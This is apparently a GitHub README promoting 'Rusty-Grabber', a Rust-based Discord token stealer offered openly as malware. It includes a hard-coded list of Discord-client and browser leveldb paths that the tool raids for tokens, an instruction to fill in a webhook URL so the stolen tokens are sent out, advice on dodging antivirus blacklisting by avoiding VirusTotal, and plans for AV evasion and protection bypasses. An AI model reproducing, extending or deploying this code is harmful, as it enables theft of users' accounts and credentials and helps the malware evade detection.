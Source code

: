 # Rusty-Grabber 🚀
- *a blazing fast Discord Token Grabber, no popo made with python*

## Fastest Token Grabber **ever** :
```bash
Rusty-Grabber> time ./target/release/grabber
0.00user 0.00system 0:00.72elapsed 0%CPU (0avgtext+0avgdata 5396maxresident)k
0inputs+0outputs (1419major+0minor)pagefaults 0swaps
```

## Fill your Webhook in utils.rs :
```bash
./src/global/utils.rs:4 in the WEBHOOK_URL const.
```

## virus total report with 0 Obfuscation, Xoring or AV Evasion
**![Alt text](https://media.discordapp.net/attachments/1146101828451303476/1146101874282471626/Wb8Bg40.png?width=1556&height=820)**
### Avoid using virus total when scanning the malware.
### They will blacklist the program
### Use [kleenscan](https://kleenscan.com/) instead (Anonymous reporting)

## I will maintain the code updated and more optimised
```md
- Work with new discord token's encryption 2023
- Grab all token's possible
- Check each token's
- Soon DiscordProtector bypasser and AV evasion maybe paid
```

## Browser's & Discord Client handle :
```rs
lazy_static! {
    pub static ref PATHS: HashMap<&'static str, String> = {
        let map = HashMap::from([
            ("Discord", format!("{}\\discord\\Local Storage\\leveldb\\", ROAMING)),
            ("Discord Canary", format!("{}\\discordcanary\\Local Storage\\leveldb\\", ROAMING)),
            ("Lightcord", format!("{}\\Lightcord\\Local Storage\\leveldb\\", ROAMING)),
            ("Discord PTB", format!("{}\\discordptb\\Local Storage\\leveldb\\", ROAMING)),
            ("Opera", format!("{}\\Opera Software\\Opera Stable\\Local Storage\\leveldb\\", ROAMING)),
            ("Opera GX", format!("{}\\Opera Software\\Opera GX Stable\\Local Storage\\leveldb\\", ROAMING)),
            ("Amigo", format!("{}\\Amigo\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Torch", format!("{}\\Torch\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Kometa", format!("{}\\Kometa\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Orbitum", format!("{}\\Orbitum\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("CentBrowser", format!("{}\\CentBrowser\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("7Star", format!("{}\\7Star\\7Star\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Sputnik", format!("{}\\Sputnik\\Sputnik\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Vivaldi", format!("{}\\Vivaldi\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome SxS", format!("{}\\Google\\Chrome SxS\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome", format!("{}\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome1", format!("{}\\Google\\Chrome\\User Data\\Profile 1\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome2", format!("{}\\Google\\Chrome\\User Data\\Profile 2\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome3", format!("{}\\Google\\Chrome\\User Data\\Profile 3\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome4", format!("{}\\Google\\Chrome\\User Data\\Profile 4\\Local Storage\\leveldb\\", APPDATA)),
            ("Chrome5", format!("{}\\Google\\Chrome\\User Data\\Profile 5\\Local Storage\\leveldb\\", APPDATA)),
            ("Epic Privacy Browser", format!("{}\\Epic Privacy Browser\\User Data\\Local Storage\\leveldb\\", APPDATA)),
            ("Microsoft Edge", format!("{}\\Microsoft\\Edge\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Uran", format!("{}\\uCozMedia\\Uran\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Yandex", format!("{}\\Yandex\\YandexBrowser\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Brave", format!("{}\\BraveSoftware\\Brave-Browser\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
            ("Iridium", format!("{}\\Iridium\\User Data\\Default\\Local Storage\\leveldb\\", APPDATA)),
        ]);
        map
    };
}
```
